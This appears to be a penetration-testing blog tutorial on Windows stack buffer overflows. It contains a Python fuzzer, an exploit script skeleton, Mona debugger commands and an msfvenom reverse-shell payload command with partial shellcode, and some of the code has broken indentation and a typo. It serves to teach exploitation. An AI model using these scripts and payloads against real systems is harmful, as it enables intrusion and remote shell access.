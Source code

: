 ```yaml
---
layout: post
title: Buffer Overflow Overview
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2021-11-02
tags: [buffer overflow, general, windows]
categories: [Tools]
toc:  true
---
```


Buffer overflows are a must have for any penetration testers arsenal.

To perform a buffer overflow attack, some setup is needed for it to be effective and to not crash any production or business critical applications.

## Setup

First off, If possible you must download a copy of the vulnerable application to your own testing machine running your choice of debugging program. For this example we will use [Immunity Debugger](https://www.immunityinc.com/products/debugger/) along with an additional script add-on called [Mona.py](https://github.com/corelan/mona).

![Immunity Debugger with Mona.py](https://mitchelldstein.github.io/assets/images/BufferOverflow/ImmunityDebugger.png)

## Fuzzing

Fuzzing is the process of finding errors and security flaws in software or networks. Fuzzing for buffer overflows involved sending larger and larger commands into the program in hopes to crash it and log the length of the command.

Here is a fuzzer made in python that will interact with the running application and log the length of the command sent.

### **_Fuzzer.py:_**

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "<cmd if needed>"

string = prefix + "A" * 100

while True:
    try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```

Run this command against the network facing program and log the number of bytes it crashed at. As a good rule of thumb always add +400 to the crashed bytes.

## Crash Replication & EIP Control

For the sake of the example, lets say the program crashed at 600 bytes, lets add 400 to it and generate a non-repeating pattern so we can view the exact place in which the program crashed.

```shell
$ /usr/bin/msf-pattern_create -l 1000
Aa0Aa1Aa2Aa3A . . . 7Bg8Bg9Bh0Bh1Bh2B
```

With the pattern we will start to create our exploit to craft our final payload.

### **_Exploit.py_**

```python
import socket

ip = "MACHINE_IP"
port = <port>

prefix = "<optional command>"
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3A . . . 7Bg8Bg9Bh0Bh1Bh2B"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

To find the crash point for code injection, you can use Mona.py.

```shell
!mona findmsp -distance 1000
```

Mona will reply back with

```text
EIP contains normal pattern : … (XXX)
```

In **_Exploit.py_** set the offset varialbe to XXX

## Generate bytearray and find bad characters

```python
#!/bin/python3
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()z
```

In Immunity Debugger:

```shell
!mona bytearray -b "\x00< + bad chars>"
!mona compare -f C:\mona\%p\bytearray.bin -a <address>
```

Close bytes can also corrupt near ones. Remove the first byte from the pair and retry. For example if you have 0x1a0x1b, remove 0x1a first then rerun the test.

## Find the JMP ESP

```shell
$!mona jmp -r esp
```

## Generate payload

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<found bad chars>" -f c

"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
.
.
.
"\x83\x39\x6d";

```

Add payload to **_Exploit.py_** > payload = ("\***\*\_\*\***")

### Extra

Maybe add some prepend NOPs to **_Exploit.py_**

```shell
overflow = "\x90" * <overflow>
padding = "\x90" * 16
```

